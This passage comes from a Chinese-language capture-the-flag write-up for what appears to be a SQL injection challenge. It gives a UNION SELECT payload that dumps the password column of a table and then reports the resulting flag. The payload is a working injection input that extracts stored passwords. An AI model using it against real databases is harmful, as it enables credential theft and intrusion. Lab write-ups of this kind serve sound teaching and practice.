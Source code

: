 转手数据表l0ve1ysq1<br />步骤和数据表geekuser一样，这里直接爆数据表l0ve1ysq1的flag值<br />`1' union select 1,database(),group_concat(password) from l0ve1ysq1#`<br />回显结果<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698912423460-3c81bdee-fb79-40c6-a33f-77d1ef31e897.png#averageHue=%23242322&clientId=u93f0fa3e-5d73-4&from=paste&height=828&id=u6276eb70&originHeight=1035&originWidth=1920&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=630684&status=done&style=none&taskId=uad685c97-2037-4584-b5df-0a79cd79221&title=&width=1536)<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698912445735-b36fc7d2-cb85-49a3-a1bf-e1d6f21d01e5.png#averageHue=%23222222&clientId=u93f0fa3e-5d73-4&from=paste&height=826&id=u20939a6e&originHeight=1033&originWidth=1920&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=613901&status=done&style=none&taskId=ua38fbf35-d9a8-422a-b92e-f8170c73537&title=&width=1536)<br />**得出flag：**<br />`flag{3c4b1ff9-6685-4dcb-853e-06093c1e4040}`<br />原文链接：[https://blog.csdn.net/m0_73734159/article/details/134185235?spm=1001.2014.3001.5501](https://blog.csdn.net/m0_73734159/article/details/134185235?spm=1001.2014.3001.5501)






